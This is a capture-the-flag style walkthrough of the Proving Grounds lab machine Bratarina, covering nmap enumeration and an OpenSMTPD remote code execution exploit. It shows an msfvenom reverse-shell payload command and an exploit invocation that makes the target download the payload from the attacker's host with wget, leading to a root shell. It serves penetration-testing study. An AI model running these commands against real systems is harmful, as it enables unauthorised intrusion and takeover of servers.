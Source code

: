 ```yaml
---
title: Proving Grounds - Bratarina
date: 2022-09-17 12:00:00 -500 
categories: [Proving Grounds]
tags: [oscp,linux]
---
```


# Bratarina Overview

Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|192.168.109.71|Bratarina|Linux|

## Path to Exploitation
Bratarina is a really straightforward machine that requires some basic enumeration of the identified services. In this case we exploit a vulnerable SMTP service that gain root access to the machine. 

# Bratarina Enumeration

## Full Port Scan

```bash
nmap 192.168.109.71 -p- -oA Bratarina/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|22|ssh|
|25|smtp|
|80|http|
|445|microsoft-ds|

## Service Scan

```bash
nmap 192.168.109.71 -p 22,25,80,445 -sC -sV -oA Bratarina/nmap/service-scan -Pn
```

Which Resulted In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|22|ssh|7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)|
|25|smtp||
|80|http|1.14.0 (Ubuntu)|
|445|netbios-ssn|smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)|

# SMTP

We see the server version is OpenSMTPD 2.0

We can search for vulnerabilities that affect this version and come across the following [RCE Exploit](https://www.exploit-db.com/exploits/47984)

We try launching reverse shell one-liners with no luck and decide to upload a reverse shell file to the host. We need to generate our reverse shell payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.109 LPORT=445 -f elf > evil.elf
```

We'll start an HTTP server and upload our file to the /tmp directory on the host 


```bash
python3 exploit.py 192.168.109.71 25 "wget 192.168.49.109/evil.elf -O /tmp/evil.elf"
```

![Payload](/assets/ProvingGrounds/Bratarina/payload.png)

We get a hit on our HTTP server

![HTTP Callback](/assets/ProvingGrounds/Bratarina/http-hit.png)

We then change our payload to an executable, setup our listener, and launch the payload

![Privilege Escalation](/assets/ProvingGrounds/Bratarina/priv-esc.png)

And we see we get a shell running as root
